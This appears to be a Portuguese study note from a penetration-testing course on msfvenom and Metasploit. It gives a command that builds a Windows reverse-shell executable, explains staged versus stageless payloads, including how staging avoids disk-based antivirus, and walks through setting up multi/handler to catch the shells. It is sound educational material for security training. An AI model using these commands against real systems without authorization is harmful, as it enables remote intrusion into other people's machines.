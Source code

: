 Encontramos tudo sobre payload
sintaxe padrão:
``msfvenom -p <PAYLOAD> <OPTIONS>``

para gerar uma reverse shell windows x64 em formato exe poderiamos usar:
``msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>``

- ``-f`` formato
- ``-o`` lugar do output
- ``LHOST=<IP>`` especifica o ip para conectar de volta
- ``LPORT=<port> `` porta na máquina local para se conectar de volta

## staged vc stageless

- **Staged:** payloads são enviados em duas partes. A primeira é chamada de stager. Esse é um pedaço de código que é executado diretamente no servidor. Ele concta de volta a um listener que está esperando, mas não realmente tem o código do reverse shell por conta própria. Ele usa a conexão para baixar o payload real, executando diretamente e impedindo que seja salvo no disco e pelas soluções tradicionais de anti-virus. Staged payloads requerem um listener especial.
- **Stageless:** contém tudo necessário para executar e gerar uma reverse shell para o listener. Eles são maiores e tendem a ser mais fácil de serem pegos pelo antivírus.


## Payload Naming Conventions
A convenção básica é a seguinte:
``<OS>/<arch>/<payload>``
Para windows de 32 bits omite-se o arch

Stageless payloads são marcados com underscores ``_``
Staged payloads são marcados com slash ``/``

Mostra os payloads disponíveis
``msfvenom --list payloads``

## Metasploit multi/handler
É uma ferramenta focada em pegar reverse shells. É essencial se você deseja usar meterpreter shells.
1. ``msfconsole``
2. ``use multi/handler``
3. configura com o mesmo payload criado ``set payload <payload>``
4. configura as outras variaveis
5. ``exploit``

``exploit -j`` inicia o comando como um trabalho no background
